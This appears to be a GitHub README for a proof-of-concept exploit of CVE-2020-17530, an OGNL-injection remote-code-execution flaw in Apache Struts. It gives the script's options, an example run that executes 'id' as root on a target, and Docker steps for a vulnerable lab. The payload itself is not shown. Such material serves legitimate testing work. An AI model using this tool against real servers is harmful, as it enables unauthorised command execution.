 # CVE-2020-17530

Quick POC for [CVE-2020-17530](https://nvd.nist.gov/vuln/detail/CVE-2020-17530). In Apache Struts versions 2.0.0 - 2.5.25 a forced Object Graph Navigational Language (OGNL) evaluation on raw user input in tag attributes may lead to remote code execution (RCE).

```
$ python CVE-2020-17530.py --help
usage: CVE-2020-17530.py [-h] [-c COMMAND] [-n NAME] [-p PORT] [-t TARGET] [-u URI]

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        command
  -n NAME, --name NAME  form data name
  -p PORT, --port PORT  port
  -t TARGET, --target TARGET
                        target
  -u URI, --uri URI     uri

$ python CVE-2020-17530.py --target 10.10.30.62 --port 8080 --uri "/index.action" --command id
uid=0(root) gid=0(root) groups=0(root)
```

## Setup

```
$ docker pull vulhub/struts2:2.5.25
$ docker run -d -p 8080:8080 vulhub/struts2:2.5.25
```